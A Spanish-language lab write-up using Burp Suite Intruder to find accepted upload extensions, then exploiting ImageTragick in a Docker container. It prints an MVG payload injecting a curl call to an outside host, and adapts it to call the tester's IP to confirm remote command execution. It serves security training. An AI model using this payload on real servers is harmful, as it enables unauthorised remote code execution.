 **La pestaña de Intruder es una herramienta poderosa utilizada para realizar ataques automatizados de fuerza bruta, fuzzing y otras formas de pruebas de seguridad en aplicaciones web.**

Dentro de la pestaña Intruder vamos a aplicar un ataque de fuerza bruta, con el tipo de ataque **Sniper**. Seleccionaremos donde pone **"``.txt``"** en la parte inferior donde figura el codigo de la petición de la web, luego de esto presionaremos la opción donde dice **"Add"** del lado derecho, esto lo que estará haciendo es añadir un campo a la selección hecha para identificarlo como un **Payload**, **similar al caso de WFUZZ utilizando la palabra FUZZ**. 

Ahora lo que hay que hacer es asignarle un diccionario, por ende iremos a la pestaña **Payloads** y donde dice "Payload Settings" mas abajo, agregarle la cantidad de extensiones que queramos probar.

Ahora iremos a la pestaña **Settings** y si bajamos encontraremos un titulo que dice **``GREP EXTRACT``**, esto lo que hará al momento de hacer Fuerza bruta en el resultado del lado del servidor, que de forma representativa nos añadiera una columna que nos permitiera ver la respuesta del lado del servidor pero únicamente el mensaje de **``UNSUPPORTED FYLE TYPE``**, porque cuando no ponga eso quiere decir que la extensión que ha probado ha devuelto una respuesta distinta, y en ocasiones hasta muestra cual es la respuesta porque el campo es el mismo.

Le daremos click a donde dice "``Add``" y **seleccionaremos toda la ultima linea donde dice Unsupported File Type y lo demás**. Esto lo que hará es crearnos una expresión regular mas arriba, luego le daremos a Ok.

Ya con todo esto definido únicamente debemos darle a donde dice **Start Attack** en naranja y mandaremos la ventana de los resultados al escritorio 4 con **``Wind+Shift+4``**.
En los resultados veremos que hay muchas coincidencias que no acepta, y otras que dicen **"``image size is:``"** lo cual significa que esas extensiones son validas, por lo tanto podemos deducir que las extensiones multimedias son validas.

Ahora lo que podemos hacer es buscar un código en internet de vulnerabilidad para magicktragick, en este caso utilizaremos el mismo brindado por el primer link de GITHUB que escribí.

##### Código

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

---
##### Modificaciones en BurpSuite

En donde pone **``curl "www.leavesong.com:8889``** colocaremos **``curl "172.17.0.1/testingRCE``"** donde esa IP es la de nuestro contenedor o IP DOCKER, y el **``testingRCE``** **(Testing Remote Code Execution)** es a modo de traza para ver si me deja mas adelante hacer un RCE.

En nuestra Shell escribiremos **"``python3 -m http.server 80``"** para crear un servidor HTTP por el puerto "80", de forma que si recibimos una petición debería de verla por ahí. Ahora le damos a **Send** al Burpsuite y vemos que nos aparece. 
En este caso nos devolvió respuesta "*GEST testingRCE*" esa petición nos la hizo la **172.21.0.2** el contenedor, por lo tanto tenemos EJECUCIÓN REMOTA DE COMANDOS. Lo critico ahora es que tenemos capacidad de ejecutar lo que queramos en la maquina a la que estamos atacando. (En este caso el contenedor)
